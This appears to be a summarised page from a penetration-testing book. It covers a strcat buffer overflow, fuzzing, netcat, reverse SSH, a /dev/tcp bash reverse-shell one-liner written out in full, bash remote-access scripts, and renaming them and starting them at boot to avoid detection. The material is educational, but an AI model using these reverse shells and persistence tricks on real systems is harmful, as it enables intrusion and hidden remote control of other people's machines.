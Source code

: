 The text provides an example using the `fuzzme.exe` program, which concatenates command-line arguments. It highlights the vulnerabilities of using `strcat`, which can lead to buffer overflows if the combined input exceeds allocated memory. This flaw allows attackers to inject code, demonstrating the importance of input validation.

### Enhancements to Fuzzer

The text suggests expanding the fuzzer to test with various data types (numbers, letters, special characters) and multiple arguments simultaneously. This would further enhance the ability to identify vulnerabilities due to improper input handling.

### Establishing a Foothold

After gaining access to a target system, maintaining a foothold is essential. The text introduces the `nc` (netcat) command for creating network connections, supporting both TCP and UDP. It can be used to listen for incoming connections or initiate outbound ones, crucial for remote access.

### Reverse SSH

Reverse SSH is a method to maintain access by having the target system initiate a connection to the attacker's system. This bypasses potential firewall restrictions on inbound connections. The command `ssh -R 12345:localhost:22 user@remoteipaddress` sets up remote port forwarding, allowing the attacker to connect back to the target system.

### Bash Backdoor

A single-line bash command can create a backdoor for remote access using `/dev/tcp`. The command `/bin/bash -i < /dev/tcp/192.168.10.5/8080 1>&0 2>&0` opens an interactive bash shell, redirecting input and output to a specified IP and port, enabling remote command execution.

Overall, the text covers techniques for script obfuscation, fuzzing for vulnerabilities, and methods to maintain access to compromised systems, emphasizing security and penetration testing strategies.



This text discusses establishing a remote connection to a target system using bash scripts for penetration testing. It begins by explaining a simple TCP connection setup to redirect input into a new bash instance, using the `nc` (netcat) command to listen for connections. The text highlights the limitations of such a basic setup, noting that it lacks encryption and can be easily detected.

The text then introduces a more sophisticated remote-access tool using bash scripts: `LocalRat.sh` and `RemoteRat.sh`. The `LocalRat.sh` script is executed on the attacker's system and listens for connections, while `RemoteRat.sh` is run on the target system, initiating a TCP socket connection back to the attacker. This setup allows remote control over the target system, enabling the execution of commands and scripts.

Key components of the scripts include:
- **LocalRat.sh**: Listens for incoming connections and handles file transfers. It uses `nc` to wait for connections and transfers files based on requests.
- **RemoteRat.sh**: Connects back to the attacker's system and reads commands via a TCP socket. It can execute commands directly or run scripts sent from the attacker.

The text emphasizes the importance of renaming scripts to avoid detection during penetration tests and suggests tying the startup of these scripts to system boot processes to maintain access.
